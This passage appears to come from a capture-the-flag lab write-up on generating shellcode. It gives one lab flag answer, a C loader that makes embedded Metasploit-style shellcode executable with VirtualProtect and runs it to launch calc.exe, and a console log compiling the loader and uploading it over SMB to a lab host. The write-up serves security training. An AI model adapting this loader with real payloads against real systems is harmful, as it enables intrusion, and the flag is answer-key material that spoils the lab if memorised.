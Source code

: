 
Answer : THM{y0ur-1s7-5h311c0d3}

## TASK 5 : Generate Shellcode
### Apply what we discussed in this task and get ready for the next topic! 
Repeating the steps we have calc.c :

```c
#include <windows.h>
char stager[] = {
"\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b\x50\x30"
"\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff"
"\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\xe2\xf2\x52"
"\x57\x8b\x52\x10\x8b\x4a\x3c\x8b\x4c\x11\x78\xe3\x48\x01\xd1"
"\x51\x8b\x59\x20\x01\xd3\x8b\x49\x18\xe3\x3a\x49\x8b\x34\x8b"
"\x01\xd6\x31\xff\xac\xc1\xcf\x0d\x01\xc7\x38\xe0\x75\xf6\x03"
"\x7d\xf8\x3b\x7d\x24\x75\xe4\x58\x8b\x58\x24\x01\xd3\x66\x8b"
"\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0\x89\x44\x24"
"\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f\x5f\x5a\x8b\x12\xeb"
"\x8d\x5d\x6a\x01\x8d\x85\xb2\x00\x00\x00\x50\x68\x31\x8b\x6f"
"\x87\xff\xd5\xbb\xf0\xb5\xa2\x56\x68\xa6\x95\xbd\x9d\xff\xd5"
"\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb\x47\x13\x72\x6f\x6a"
"\x00\x53\xff\xd5\x63\x61\x6c\x63\x2e\x65\x78\x65\x00" };
int main()
{
        DWORD oldProtect;
        VirtualProtect(stager, sizeof(stager), PAGE_EXECUTE_READ, &oldProtect);
        int (*shellcode)() = (int(*)())(void*)stager;
        shellcode();
}
```
{: .nolineno }

```console
root@ip-10-10-119-181:~/Desktop# i686-w64-mingw32-gcc calc.c -o calc-MSF.exe
root@ip-10-10-119-181:~/Desktop# ls
'Additional Tools'   calc-MSF.exe   flagO                  shellcode.c   thm.asm   thm.text   Tools
 calc.c              flag.c         mozo-made-15.desktop   THM           thm.o     thmx
root@ip-10-10-119-181:~/Desktop# smbclient -U thm '//10.10.229.83/Tools'
WARNING: The "syslog" option is deprecated
Enter WORKGROUP\thm's password: 
session setup failed: NT_STATUS_LOGON_FAILURE
root@ip-10-10-119-181:~/Desktop# smbclient -U thm '//10.10.229.83/Tools'
WARNING: The "syslog" option is deprecated
Enter WORKGROUP\thm's password: 
Try "help" to get a list of possible commands.
smb: \> put calc-MSF.exe 
putting file calc-MSF.exe as \calc-MSF.exe (49899.0 kb/s) (average 49899.7 kb/s)
smb: \> 
```
{: .nolineno }
